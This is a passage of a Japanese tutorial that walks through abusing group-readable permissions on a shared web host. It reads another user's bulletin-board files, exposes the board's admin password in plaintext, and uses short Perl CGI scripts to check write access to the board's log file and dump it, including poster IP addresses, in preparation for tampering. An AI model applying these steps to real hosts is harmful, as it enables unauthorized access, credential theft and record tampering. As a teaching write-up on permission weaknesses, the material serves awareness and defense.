 　文字化けしましたが読めました。w0tIdはmp123と同じグループのユーザーです。
ですから、755とグループからの読み込み許可が出ているので読めて当然です。
  管理パスワードは sjeis ですね。取りあえず掲示板の管理人室へ入れるように
なりました（他人のパスワードを不正に使用したら犯罪です）。

  もう少し試してみましょう。


●logファイル改竄

  BBSのlogファイルを改竄してみましょう。
  logファイルとは、掲示板に書き込んだ内容が保存されているファイルです。

　BBSから書き込むのではなくて、自分のホームディレクトリに置いたスクリプト
から、logファイルに直接書き込みます。
  logファイルの位置は、

/usr/home/web/m/mp123/cgi\-bin/kaiem.log

  でしたね。書き込めるかチェックしてみましょう。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- check.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

$file \= '/usr/home/web/m/mp123/cgi\-bin/light.cgi';

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
print 'r' if (\-r $file);
print 'w' if (\-w $file);
print "\n";

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\-  cut  cut  \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

  さっきlight.cgiの読み取りチェックしたもの同じです。

rw

  と出ました。書き込みできるそうです。

　書き込む前に投稿記事のフォーマットが知りたいので、一度kaiem.logを読み取
ってみます。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- read.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

$file \= '/usr/home/web/m/mp123/cgi\-bin/kaiem.log';

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";

open(FILE, $file);
print while (<FILE>);
close(FILE);

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- cut \- cut \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

  light.cgiを読み込んだのと同じものです。

  以下は結果。

\-\-\-\-\-
LIGHT<>Light Board<>008080<>6<>ＭＳ 
Ｐゴシック<><>F5F5F5<>000000<>0000FF<>800080<>FF0000<>../index.html<>100<>green<>blue<><><>
2<>2002/05/25(Sat) 
16:05<>ひひひ<><>無題<>あひゃひゃひひひひひ<><>168.143.113.102<><>
1<>2002/05/25(Sat) 14:58<>管理人<><>無題<>楽しい話<><>168.143.113.109<><>
\-\-\-\-\-
